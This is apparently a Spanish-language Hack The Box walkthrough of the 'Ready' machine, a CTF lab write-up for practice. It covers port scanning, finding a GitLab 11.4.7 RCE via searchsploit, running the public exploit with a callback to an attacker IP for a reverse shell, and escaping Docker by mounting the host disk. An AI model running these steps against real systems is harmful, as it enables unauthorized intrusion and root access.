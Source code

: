 ```yaml
---
layout: post
title:  "☢HTB☢ Ready"  
date:   2021-05-15 3:33:00 +0200
last_modified_at: 2021-05-15 03:33:29 +0200
toc:  true
tags: [ctf, linux, Hackthebox, Walkthrough, CVE, Gitlab, docker]
categories: Hackthebox
---
```


{: .message}

![](/images_blog/img_ready/Pastedimage20210515121042.png)
![Pastedimage20210515121042](https://user-images.githubusercontent.com/76759292/127757666-ad49fc55-99bf-4aed-88c5-bb3b4e438220.png)


En esta oportunidad se abuso de un CVE que esta presente en una version de Gitlab.

## Enumeración

*Puertos:*
```
22 -> OpenSSH 8.2p1 Ubuntu 4
5080 -> nginx
```

### Nmap

```sql
nmap -p- -sT -T5 --open -n -v 10.10.10.220 -oG Allport1 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 19:21 EDT
Initiating Ping Scan at 19:21
Scanning 10.10.10.220 [2 ports]
Completed Ping Scan at 19:21, 0.06s elapsed (1 total hosts)
Initiating Connect Scan at 19:21
Scanning 10.10.10.220 [65535 ports]
Discovered open port 22/tcp on 10.10.10.220
Connect Scan Timing: About 22.87% done; ETC: 19:23 (0:01:45 remaining)
Discovered open port 5080/tcp on 10.10.10.220
Connect Scan Timing: About 54.84% done; ETC: 19:23 (0:00:50 remaining)
Connect Scan Timing: About 72.24% done; ETC: 19:23 (0:00:35 remaining)
Completed Connect Scan at 19:23, 119.47s elapsed (65535 total ports)
Nmap scan report for 10.10.10.220
Host is up (0.15s latency).
Not shown: 51328 filtered ports, 14205 closed ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
5080/tcp open  onscreen

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 119.72 second
```

*Escaneo mas exhaustivo:*
```sql
nmap -sC -sV -p5080,22 10.10.10.220 -oN Scan_Port1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 19:24 EDT
Nmap scan report for 10.10.10.220
Host is up (0.054s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.86 seconds
```

### Masscan

Siempre decartando los falsos positivos:
```sql
masscan -e tun0 --rate=500 -p 0-65535 10.10.10.220
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-04-25 23:16:46 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65536 ports/host]
Discovered open port 5080/tcp on 10.10.10.220
```


*Tips de enumeración web*

Si queremos saber rapidamente los servicios que tiene una web podemos tirar de la herramienta ```Whatweb```
```bash
whatweb 10.10.10.220:5080
http://10.10.10.220:5080 [302 Found] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.10.10.220], RedirectLocation[http://10.10.10.220:5080/users/sign_in], Strict-Transport-Security[max-age=31536000], UncommonHeaders[x-content-type-options,x-request-id], X-Frame-Options[DENY], X-UA-Compatible[IE=edge], X-XSS-Protection[1; mode=block], nginx
http://10.10.10.220:5080/users/sign_in [200 OK] Cookies[_gitlab_session], Country[RESERVED][ZZ], HTML5, HTTPServer[nginx], HttpOnly[_gitlab_session], IP[10.10.10.220], Open-Graph-Protocol, PasswordField[new_user[password],user[password]], Script, Strict-Transport-Security[max-age=31536000], Title[Sign in · GitLab], UncommonHeaders[x-content-type-options,x-request-id], X-Frame-Options[DENY], X-UA-Compatible[IE=edge], X-XSS-Protection[1; mode=block], nginx
```

*Version del GitLab*

```plaintext
GitLab Community Edition [11.4.7]
```

*Searchsploit*

Cuando tenemos la version del aplicativo lo que procede es buscar si tiene un cve esa version:

```bash
searchsploit GitLab 11.4.7   

Exploit
Title                                                      			Path
GitLab 11.4.7 - RCE (Authenticated) (2)                             | ruby/webapps/49334.py
GitLab 11.4.7 - Remote Code Execution (Authenticated) (1)			| ruby/webapps/49257.py
```

## GitLab Page
Pero antes de ejecutar el cve debemos registrarnos en el GitLab:
*Register*

```plaintext
benji
Benji123
benji@htb.com
```
## Remote Code Execution 
En este no se tiene que modificar nada en el codigo fuente sino que este solo tienes que agregar los parametros y te ejecuta todo automatico [RCE](https://www.exploit-db.com/exploits/49334)

```bash
# Exploit Title: GitLab 11.4.7 RCE (POC)
# Date: 24th December 2020
# Exploit Author: Norbert Hofmann
# Exploit Modifications: Sam Redmond, Tam Lai Yin
# Original Author: Mohin Paramasivam
# Software Link: https://gitlab.com/
# Environment: GitLab 11.4.7, community edition
# CVE: CVE-2018-19571 + CVE-2018-19585
```

*Run*

```bash
python 49334.py -u benji -p Benji123!!! -g http://10.10.10.220 -l 10.10.14.234 -P 4444
```
Nos ponemos a la escucha en el puerto que especificamos y listo.

## File system Escape

Cuando tenemos el acceso inicial nos damos cuenta que estamos en un docker entonces el objetivo seria escapar del mismo

En la ruta /opt/backups/gitlab.rb encontraremos un backup con la contraseña root del contenedor

![](/images_blog/img_ready/Pastedimage20210503175440.png)
![Pastedimage20210503175440](https://user-images.githubusercontent.com/76759292/127757672-c36da576-b3ef-42dc-8974-70bdc4f1a91f.png)


Estas contraseña que hemos encontrado en el backup, la utilizaremos para acceder como un usuario root del contenedor. Al estar dentro de un contenedor estamos muy limitados entonces la idea seria nos montamos la partición del hosts en una carpeta que creemos en /tmp para poder visualizarlo y de esta manera podemos acceder a /root y leer todo lo que tiene.

![](/images_blog/img_ready/Pastedimage20210503175936.png)
![Pastedimage20210503175936](https://user-images.githubusercontent.com/76759292/127757675-8e9f154d-1c64-4ee3-ae07-fc3d113848f8.png)


En este caso vimos como se puede desde un contenedor visualizar el sistema de archivo del host. Esta maquina fue una excelente manera de ver que pasa cuando no nos mantenemos actualizados.

MACHINE PWNED!!!!!

